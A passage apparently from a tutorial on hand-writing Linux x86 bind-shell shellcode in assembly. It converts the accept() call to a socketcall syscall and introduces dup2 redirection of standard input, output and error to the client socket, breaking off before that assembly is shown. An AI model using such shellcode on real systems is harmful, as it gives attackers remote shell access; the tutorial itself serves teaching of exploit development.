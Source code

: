 #### Accepting connections

It's time to accept incoming connections from clients (max 1 client in this case). We need to convert the following C code into assembly:

```cpp
size_client_socket_struct = sizeof(struct sockaddr_in);
client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&client_address, (socklen_t *)&size_client_socket_struct);
```

Follows the assembly code:

```nasm
    ; 3rd argument of accept(): size of client_address struct
    rol bl, 2
    push ebx

    ; 2nd argument of accept: client_address struct, in this case empty
    xor ebx, ebx
    push ebx
    push ebx

    ; 1st argument of accept: file descriptor of the server socket
    push esi

    ; syscall socketcall
    ; mov eax, 102
    mov eax, ebx
    mov al, 102

    ; 1st argument of socketcall(): SYS_ACCEPT call
    mov bl, 5

    ; 2nd argument of socketcall(): pointer to accept() arguments
    mov ecx, esp

    ; execute accept()
    int 0x80
```

#### I/O Redirection

As mentioned previously, the redirection of `input`/`output`/`error` is performed by means of the function `dup2`. The call to `accept()` returns the File Descriptor associated with the Client Socket.

```cpp
dup2(client_socket_fd, 0);
dup2(client_socket_fd, 1);
dup2(client_socket_fd, 2);
```

According to the file `/usr/include/i386-linux-gnu/asm/unistd_32.h`, `dup2` is the syscall `#63`. Given this information, we're now ready to convert the code above into assembly:

